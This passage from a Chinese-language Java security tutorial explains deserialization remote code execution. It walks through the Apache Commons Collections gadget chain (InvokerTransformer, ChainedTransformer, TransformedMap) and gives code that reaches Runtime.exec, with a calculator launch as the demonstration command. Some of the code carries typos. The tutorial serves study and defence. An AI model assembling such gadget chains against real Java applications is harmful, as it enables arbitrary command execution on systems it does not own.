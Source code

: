 ```
obj.constructMethod = "getRuntime";
obj.methodName = "exec";
obj.arg = "open /System/Applications/Calculator.app";
```
那么，当应用对这个 序列化数据进行反序列化时，根据前面介绍的反射原理，我们知道它会在readObject方法中调用Runtime的exec来执行命令。如果web应用中有这样的代码，攻击者就可以构造恶意的对象，让web应用在反序列化时执行任意命令。
读者可能很快就会有疑问，没有人会在应用中写出这种带有明显漏洞的类，而且自己的应用在Classpath中也不会有这样的类。这里给的只是最简单的示例，Java应用一般会大量使用各种开源库，实际上在运行时构造类的对象并创建实例的做法在开源代码中并不少见。例如，Apache的Commons Collections库实现了额很多基础的工具类，它们在Java应用中被广泛使用。
2015年，就有研究者讲解了Apache Commons Collections的反序列化漏洞导致远程命令执行的案例。实际上，在此之前就有人公开果PoC，但是没有受到重视，知道这篇文章向大家展示类Weblogic、WebSphere、JBoss、Jenkins和OpenNMS等被大范围使用的系统都受到了影响，才引起厂商的重视，同时也掀起了接下来这几年安全圈对Java反序列化漏洞研究的热潮。
Apache Commons Collections库中的Transformer接口用于将一个输入对象转换成另一种对象后输出，通常用于类型转换，或者从对象中提取数据。InvokeTransformer类即为实现了果接口的一个类，其中关键部分代码如下：
```
//构造函数
public InvokerTransformer(String methodName,Class[] paramTypes,Object[] args){
    this.iMethodName = methodName;
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}
...
public Object transform(Object input){
    if(input == null){
        return null;
    }else{
        try{
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName,this.iParamTypes);
            return method.invoke(input,this.iArgs);
        }catch...
    }
}

```
看起来是不是和面前我们特意构造的反序列化漏洞的代码有点像？但是，这段代码还不能实现反序列化远程代码执行，因为在正常的应用里，调用transform方法时input参数不会是java.lang.Runtime对象。在Apache Commons Collections中存在ChainedTransformer类，它可以实现多个Transformer链式调用，传入一个Transformer数组就可以按照顺序依次调用每个Transformer的transform方法。
```
public Object transform(Object object){
    for(int i=0;i<this.iTransformers.length;++i){
        object = this.iTransformersp[i].transform(object);
    }
    return object;
}
```
所以，我们可以通过ConstantTransformer()获取Runtime类，再反射调用getRuntime()方法获取Runtime实例，然后反射调用exec()方法来执行命令。将这几个步骤串联起来形成一个Transformer链，代码如下：
```
public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                new Class[]{String.class,Class[].class},new Object[]{
                    "getRuntime",new Class[0]}),
            new InvokerTransformer("invoke",
                new Class[]{Object.class,Obejct[].class},new Obejct[]{
                    null, new Object[0]}),
        new InvokerTransformer("exec",
            new Class[] {String.class},new Object[]{"open /System/Applications/Calculator.app"})};
    Transformer transformedChain = new ChainedTransformer(transformers);
}
```
实现了Transformer链之后，我们可以将它应用在TransformedMap中，它其实就是个Map，只不过往其中添加元素时会自动调用transform方法进行变换，因此就会执行我们定义的Transformer链，达到执行命令的目的。